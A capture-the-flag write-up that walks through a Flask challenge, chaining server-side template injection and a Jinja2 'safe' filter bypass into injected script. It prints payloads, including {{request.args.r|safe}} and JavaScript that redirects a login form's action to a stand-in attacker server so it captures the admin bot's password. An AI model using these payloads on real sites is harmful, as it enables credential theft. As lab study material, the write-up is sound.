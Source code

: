 ![image](https://user-images.githubusercontent.com/64314534/234607512-23006716-acb8-4149-86f8-4e0532e85e6d.png)

When we enter the challenge we will find a simple login page with a number of failed logins

<br>

![image](https://user-images.githubusercontent.com/64314534/234608009-f52b5e94-ec1c-4a0d-a5ca-227bbe8f79b5.png)

after trying a simple creds   `admin:admin`

we will got : `wrong username or password` and the number of failed login has been increased .

# Let's review the code  (Flask)
<br>

![image](https://user-images.githubusercontent.com/64314534/234610042-578eb5ff-8b3b-44e3-ac9d-1d04adf110e0.png)

<br>

The code is very simple let's divde it into pieces to explain it 

### First part : 
<br>

![image](https://user-images.githubusercontent.com/64314534/234610860-54a13eeb-b6f7-4960-ae89-0d3a257667a2.png)

<br>

The application import some libraries like Flask , escape and render_template_string (keep in mind that this function is vulnerable to ssti) and then there is an html template which had a variable called fails and also a place for a string 


<br>

![image](https://user-images.githubusercontent.com/64314534/234611740-25594be1-a173-4e42-9542-c3400257dde4.png)


### Second part :

The get route of the index is doing the following : 

- get the fails variable which had the number of failed logins 
- check if there is a parameter called message and then check if it's length is equal or greater than 25 and if this it will send the index page with the number of fails
- if the message param's length less than 25 it will pass the message to the escape() function which will filtered it against xss then it will render the template and append the message to it in the place of string (format string) and this will cause an ssti vulnerability
- but the flag is not in this server so , we don't need to get RCE or something 

### Third part :
<br>

![image](https://user-images.githubusercontent.com/64314534/234614375-161e31e3-e654-4f5f-a306-184395c48c6f.png)

<br>

this is the login function and it's broken as we can see it's not working, just increasing the number of failed logins

### The bot code 
<br>

![image](https://user-images.githubusercontent.com/64314534/234615117-8b579722-bcf2-4c97-a2ae-1232d95ee3f2.png)


<br>

As we can see from the selected parts the bot logins with the username:admin and the password : flag 
so, we need to get xss to change the form action and get the password which is the flag : D

i opened my burp suite to do some debugging with the ssti 

<br>

![image](https://user-images.githubusercontent.com/64314534/234615966-57a7de01-732b-4ac0-99d3-ee4bf3c92a51.png)

![image](https://user-images.githubusercontent.com/64314534/234616110-df9aa7c2-c4c9-4f59-959e-b00b2ee57e8e.png)


<br>

As you see we can confirm that the message parameter is not vulnerable to Xss but vulnerable to ssti, TBH iam not very good at flask templates but i know there is something called jinja2 filters (flask using jinja2 as a template engine)

Ex : {{thing|filter}}   : {{-123456|abs}} will return 123456 (the absolute value of the number)

after searching in jinja2 filters i found that `safe` filter will prevent the element from being escaped 
<br>

![image](https://user-images.githubusercontent.com/64314534/234619129-867a7228-a749-4967-84bf-49bc06ec30ac.png)

![image](https://user-images.githubusercontent.com/64314534/234619458-93d34009-d11c-4c68-aa8f-a32d9f019463.png)

Still we had the length problem so we can refer to another parameter to bypass the length by this payload : {{request.args.r}} 

- Final payload : {{request.args.r|safe}}

<br>

![image](https://user-images.githubusercontent.com/64314534/234620142-6198e5f4-22da-42db-8e34-81f5770779b0.png)

<br>
and we now bypassed all filters for this challenge let's see how we can edit the form action to be our server we can use this simple js code 


`<script>document.forms[0].action='https://ourserver'</script>`

<br>
But after i tried it in the browser i got this error in the console : 
<br>

![image](https://user-images.githubusercontent.com/64314534/234620959-5366f456-f7df-4049-b774-f01a1201d425.png)

<br>

Do you know why ?? Because the script is executed before the login form is loaded. so we will make a quick modify to our script :

window.onload =function(){document.forms[0].action="http://our_server"};
<br>

and i got the flag : ) 

<br>

![image](https://user-images.githubusercontent.com/64314534/234622519-3465bb6e-25ba-461b-845f-b3cbb87cbe17.png)


